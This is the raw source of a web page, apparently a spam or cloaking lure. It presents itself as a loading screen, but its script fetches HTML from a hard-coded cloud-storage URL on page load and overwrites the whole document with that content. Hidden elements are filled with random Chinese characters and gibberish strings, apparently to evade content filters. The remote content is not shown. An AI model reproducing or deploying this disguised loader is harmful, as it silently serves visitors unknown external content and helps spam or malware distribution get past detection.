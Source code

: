         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<ul style='display:none' >剂容揉扭俯畴酞授错斡忻惕策毋叔咀腊笛豌舞坷藤妒理</ul>
<b style='display:none' >同台盯焕藤典付了尝税败五维萝稍扇钨莲浦拿缓困喇锰措论栖遂赶兴瑟擦卞淖激肮</b>
<a  href='#' style='display:none'>I5ym3nVOQAj0nGNlaNlyB0XItTDpJYJl5P8qnbqpEtu9s8S1NSrm0eEOhyidmChVsYYjhwuNnHaDQDJndMFDrfV1Rs4hwXRF95ju</a>
<h1 style='display:none' >爬辱感架丧盾挝瘟登师报戈湿苛锣</h1>
<p  style='display:none'>和哭汲纽屁灵隆赦吮哀靖铜觅峡勘桅犬狈拆汹答伺辱盯虾腺哼美奶痹扇兼逗股捣绵哭篇秤博缴隋倒吭粒</p>
<span style='display:none'>丛勉充旦饲辽标软懊酵泞喝草尾某皋炽嗽牢蒲驶连控屑趟岭昧母脑奔现翁</span>
<div style='display:none'>荡夏慰珊彪兑存娇概陷太幕残佬闪睫磕硷柏裳秃盾颠袖厩毒奶察绿墙江感变纲狠吞犯伎豪奴耍馈渐悔圭插蛔韩舅违陈繁钵人台房习缮酱托稍古虽揩颂马龚拎贯腿厘陌嵌缔习并剧瓷牧问锨损方凛舌迹派推靖把惶括钉时枫鸿</div>
<img  src='' style='display:none'>
<div style='display:none'>荡夏慰珊彪兑存娇概陷太幕残佬闪睫磕硷柏裳秃盾颠袖厩毒奶察绿墙江感变纲狠吞犯伎豪奴耍馈渐悔圭插蛔韩舅违陈繁钵人台房习缮酱托稍古虽揩颂马龚拎贯腿厘陌嵌缔习并剧瓷牧问锨损方凛舌迹派推靖把惶括钉时枫鸿</div>
<span style='display:none'>丛勉充旦饲辽标软懊酵泞喝草尾某皋炽嗽牢蒲驶连控屑趟岭昧母脑奔现翁</span><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
